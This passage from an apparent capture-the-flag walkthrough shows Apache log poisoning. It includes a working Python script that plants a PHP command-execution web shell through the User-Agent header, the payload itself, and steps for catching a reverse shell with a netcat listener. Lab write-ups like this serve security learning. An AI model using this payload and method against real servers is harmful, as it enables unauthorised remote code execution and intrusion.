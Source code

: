 By looking at the logs, we can find that the URL part is URL encoded. This means we cant inject our code there because it won't be properly reflected. There is one major field though that is not encoded: the user-agent. Let's write a short Python script to inject our payload in it. Writing Python scripts to solve pentesting problems is always useful. It will make you learn more and give you the ability to easily create tools you can use for other pentests. This is the code I came up with, let's take a look at it.

```python
#!/usr/bin/python3.8
import requests

url="YOUR_BOX_URL"
print("poisoning logs...")

payload = "<?php system((isset($_GET['c']))?$_GET['c']:'echo'); ?>"
headers = {"User-Agent": payload}

r = requests.get(url, headers = headers)

if r.status_code == 200:
  print("log poisoned!")
else:
  print("an error occurred, please try again")
```

This program uses the [requests](https://requests.readthedocs.io/en/master/) library to send the request to the server that is necessary to poison the logs. Then, we define the URL. I have put it in a separate variable to make it easier to change it and clearer. After some debug print messages, we get to the actual interesting part: the log poisoning. First, we define the payload. In that case, this is the payload I will be using.

```php
<?php system((isset($_GET['c']))?$_GET['c']:'echo'); ?>
```

This is a classical command injection payload. Once the logs will be poisoned, if we set the *c* variable, it will execute its value in the terminal.

*Note: if you want to reuse this program for another box and want to change the payload, be sure it contains no error. A good way to test for this is to test it locally. If you enter an incorrect payload, you will in a way "corrupt" the logs from your side and it will be difficult to inject a correct payload.*

Finally, the program sets the payload as user-agent and sends a request to the server. The final if/else statement is just for debug if there was a problem.

If we run that program now (having specified the right URL), we should get a message saying that the logs were successfully poisoned. Now, if we go back to the Apache2 logs and specify the *c* parameter, we can run commands.

![ls](https://i.imgur.com/WG2RHJd.png)

Now that we have a command injection, the only thing left is to pop a reverse shell inside the machine. For that, try the reverse shells from the Reverse Shell Cheatsheet by pentestmonkey. Don't forget to URL encode every special character (using, for instance, CyberChef) to be sure your command will run successfully. Run `nc -lvnp 4444` (or any other port) on your machine and put your reverse shell in the *c* parameter. You have now access to the machine!
